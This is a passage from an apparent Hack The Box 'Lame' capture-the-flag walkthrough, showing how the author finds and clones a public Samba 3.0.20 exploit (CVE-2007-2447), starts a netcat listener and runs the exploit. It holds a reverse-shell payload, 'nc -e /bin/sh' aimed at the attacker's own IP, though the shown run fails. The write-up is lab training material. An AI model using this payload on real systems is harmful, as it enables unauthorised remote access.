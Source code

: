 ```bash
Papers: No Results

```
As we did not discover an interesting exploit with searchsploit we should use [Google](https://www.google.com/search?q=Samba+3.0.20+exploit+github+rce)
We have found two different exploits that might be interesting and working for us.

Exploit option 1
```
https://github.com/Ziemni/CVE-2007-2447-in-Python
```

Exploit option 2
```
https://github.com/0xkasra/CVE-2007-2447
```

Let's clone the first exploit to our project directory.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Lame]
└─$ git clone https://github.com/Ziemni/CVE-2007-2447-in-Python.git                             
Cloning into 'CVE-2007-2447-in-Python'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 10 (delta 2), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (10/10), done.
Resolving deltas: 100% (2/2), done.

┌──(emvee㉿kali)-[~/Documents/HTB/Lame]
└─$ cd CVE-2007-2447-in-Python 

```
As soon as we are set we should start our netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Lame]
└─$ rlwrap nc -lvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444

```

## Initial access
Everything is set to capture an incoming shell, we should start now our exploit.

```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Lame/CVE-2007-2447-in-Python]
└─$ python3 smbExploit.py $ip 'nc -e /bin/sh 10.10.14.44 4444'
[*] Sending the payload
[*] Something went wrong
ERROR:

```
